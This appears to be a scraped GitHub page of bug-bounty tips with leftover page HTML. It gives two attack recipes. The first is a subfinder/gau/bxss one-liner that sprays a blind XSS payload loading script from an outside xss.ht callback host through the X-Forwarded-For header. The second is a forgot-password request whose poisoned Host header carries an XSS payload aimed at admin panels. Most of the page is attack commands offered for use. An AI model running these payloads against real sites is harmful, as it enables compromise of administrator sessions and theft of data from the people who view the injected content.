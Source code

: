 # Blind XSS In X-Forwarded-For Header: 

<h3 dir="auto"><a id="user-content-local-file-inclusion" class="anchor" aria-hidden="true" href="#local-file-inclusion"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-495 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg>@zapstiko</a></h3>
<blockquote>
<p dir="auto">subfinder -d http://target.com | gau | bxss -payload '"><script src=https://zasptiko.xss.ht></script>' -header "X-Forwarded-For"
</blockquote>

# Pwning Admin Panels (Host header poisoning)

## @hunter0x7
```
  POST /admin/forgot_password HTTP/1.1
  Host: web..com&quot;&gt;&lt;img src=&quot;Blind XSS Here&quot;&gt;
  
  ```

